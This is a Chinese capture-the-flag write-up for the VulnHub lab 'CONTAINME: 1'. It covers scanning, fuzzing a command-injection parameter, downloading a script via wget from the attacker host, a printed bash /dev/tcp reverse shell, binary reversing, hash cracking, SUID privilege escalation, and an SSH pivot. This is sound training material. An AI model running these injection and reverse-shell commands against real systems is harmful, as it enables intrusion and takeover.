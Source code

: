 ```yaml
---
layout: post
title: "vulnhub靶场之CONTAINME: 1"
date: "2022-12-03T05:14:42.014Z"
---
```

vulnhub靶场之CONTAINME: 1
======================

**准备：**

攻击机：虚拟机kali、本机win10。

靶机：CONTAINME: 1，下载地址：https://download.vulnhub.com/containme/THM-ContainMe-v4.ova，下载后直接vm打开即可。

知识点：命令执行、ffuf爆破参数、hxd使用、ida使用（逆向）、john爆破、可疑文件提权、mysql基本操作。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212401015-571473990.png)

**信息收集：**

通过nmap扫描下网段内的存活主机地址，确定下靶机的地址：nmap -sn 172.20.10.0/24，获得靶机地址：172.20.10.3。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212622913-509785037.png)

扫描下端口对应的服务：nmap -T4 -sV -p- -A 172.20.10.3，显示开放了22、80、2222、8022端口，开启了ssh、http服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201212728125-571275287.png)

**目录扫描：**

使用dirmap对80端口进行目录扫描，发现了index.php、info.php、index.html文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201233733339-1651289366.png)

访问index.php返回一个目录信息，在其源代码信息中出现隐藏信息：where is the path ?，猜测这里应该是存在参数并且可能执行了ls -al之类的系统命令。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201233904153-560531803.png)

**参数爆破：**

使用ffuf进行参数爆破，命令：ffuf -u 'http://172.20.10.3/index.php?FUZZ=../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 329，成功获得参数名称：path。最后的-fs是为了过滤下无用的返回信息，需要根据具体情况进行调整，这里使用-fs 329就可以。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235310115-960756937.png)

使用获得path参数输入命令：;id或|id进行测试，发现确实存在命令执行漏洞。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235643629-42458856.png)![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221201235725653-683251731.png)

**获取shell：**

测试时直接使用bash、nc无法反弹shell，通过echo写入脚本文件也是无法写入成功的，后来使用命令：ls -al /查看了下目录权限，发现只有/tmp目录才具有写入权限，但是使用echo往/tmp写入仍是失败。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202002341721-1214265806.png)

后来只能在本地写好脚本然后开启http服务，通过命令执行漏洞下载该脚本，命令：;wget -P /tmp http://172.20.10.2:8000/shell.sh。然后通过命令：;ls -al /tmp可以查看上传的脚本信息。如果不确定上传的目录，可以通过ls -al /查看下具有写入权限的目录，不过一般/tmp都可以写入。

    #!/bin/bash
    bash -c 'bash -i >&/dev/tcp/172.20.10.2/6688 0>&1'

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202001721912-1561496391.png)

 写入脚本文件后在kali端开启对6688端口的监听，命令：nc -lvvp 6688，然后利用命令执行漏洞使用bash进行执行shell.sh文件，命令：bash /tmp/shell.sh，成功获得shell权限。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202003830386-1325380626.png)

**尝试提权：**

查看下当前账户是否存在可以使用的特权命令，sudo -l，但是这个方法这里行不通。

 ![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202005418138-1468784167.png)

 原来想去/home目录下查找下flag文件，但是在/home/mike目录下发现了一个可疑文件，执行该文件结果如下。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202005636319-1704600058.png)

 使用strings、strace查看或调试该文件信息，但是均失败，显示不存在该命令，想用python开启web服务下载该文件也是失败。

 ![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202011558199-213594849.png)

**逆向代码信息：**

那就只能查看下该文件的二进制数据，命令：xxd -ps /home/mike/1cryptupx。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202134920301-1977602387.png)

使用hxd将十六进制编码恢复并导出为1cryptupx文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202153504526-295259911.png)

使用ida打开1cryptupx文件，查看下其代码信息并对代码信息进行分析，发现是当我们输入的密码与hash值比对正确时时会执行/bin/bash，那就将hash值复制下来进行爆破，命令：john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt，成功得到密码：mike。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164016229-1852345649.png)

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164058756-947548795.png)

**提权至root：**

加上密码：mike执行1cryptupx文件，但是返回的仍是www-data权限。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164433419-92347082.png)

那我们查看当前用户下具有root权限的可执行文件都有哪些，命令：find / -perm -4000 -type f 2>/dev/null，发现了：/usr/share/man/zh\_TW/crypt，看到名字和1cryptupx都具有crypt。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202164756029-89817570.png)

查看该文件权限显示当前账户具有可执行权限，使用获得密码：mike进行执行，成功获得root权限，但是未发现flag值，但是发现root后面显示是host1，猜测是否存在另一个虚拟镜像。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202165022151-590492730.png)

**提权2：**

查看主机ip发现两个新的ip地址：192.168.250.10、172.16.20.2，emmmm接着搞吧。使用nmap对该地址进行扫描，命令：nmap -sn 172.16.20.0/24，但是容器中未安装nmap，需要自己安装：apt install nmap，扫描完成之后发现了172.16.20.6。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202171114886-381218128.png)

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202173052555-622753562.png)

扫描下主机172.16.20.6开放的端口对应的服务：nmap -A 172.16.20.6，显示开放了22端口和ssh服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202174155581-2111227326.png)

虽然开放了ssh服务，但是我们缺少登录密码进行登录，但是在mike账户下发现了密匙信息，因此尝试下使用mike账户的密匙信息进行登录，命令：ssh mike@172.16.20.6 -i id\_rsa，成功登录。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202175036147-26641580.png)

查看下当前开启的服务，命令：ss -tuln，发现了mysql服务。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202175258411-1733386223.png)

这里尝试了下常用的弱密码，最后password成功连接数据库，命令：mysql -umike -ppassword，然后在account数据库中发现了root账户和mike账户的密码信息：root/bjsig4868fgjjeog、mike/WhatAreYouDoingHere。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190346487-2116757854.png)

利用获得密码信息：root/bjsig4868fgjjeog、mike/WhatAreYouDoingHere切换成root账户，然后在root账户下的/root目录下发现mike.zip文件。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190747498-1957101755.png)

解压mike.zip文件需要输入密码，尝试使用mike账户的密码：WhatAreYouDoingHere进行解密，获得解密后的文件并读取文件信息，成功获取到flag值。

![](https://img2023.cnblogs.com/blog/2834847/202212/2834847-20221202190925935-1825500053.png)